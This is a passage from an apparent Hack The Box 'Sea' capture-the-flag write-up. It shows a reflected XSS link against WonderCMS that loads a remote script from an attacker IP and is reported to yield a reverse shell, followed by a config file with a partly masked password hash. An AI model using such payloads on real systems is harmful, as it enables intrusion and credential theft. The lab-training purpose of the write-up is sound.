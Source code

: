Send this link to Admin: 

```
http://sea.htb/wondercms/index.php?page=loginURL?"></form><script+src="http://10.10.14.117:9901/xss.js"></script><form+action="
```
![XSS](/assets/img/posts/htb/sea/qdOjmu4Tur.png)

Boom, I got reverse shell ... 
![Reverse shell](/assets/img/posts/htb/sea/JRjhq1Wd45.png)

After thoroughly going on checking out all directories I found an interesting file in `/var/www/sea/data/database.js`:

```javascript
//$ cat database.js
{
    "config": {
        "siteTitle": "Sea",
        "theme": "bike",
        "defaultPage": "home",
        "login": "loginURL",
        "forceLogout": false,
        "forceHttps": false,
        "saveChangesPopup": false,
        "password": "$2y$10$[....]/PjDnXm4q",
        "lastLogins": {
            "2024\/08\/17 06:12:20": "127.0.0.1",
            "2024\/08\/17 06:09:50": "127.0.0.1",
            "2024\/08\/17 06:05:20": "127.0.0.1",
            "2024\/08\/17 06:01:50": "127.0.0.1",
            "2024\/08\/17 06:00:49": "127.0.0.1"
        },
        "lastModulesSync": "2024\/08\/17",
```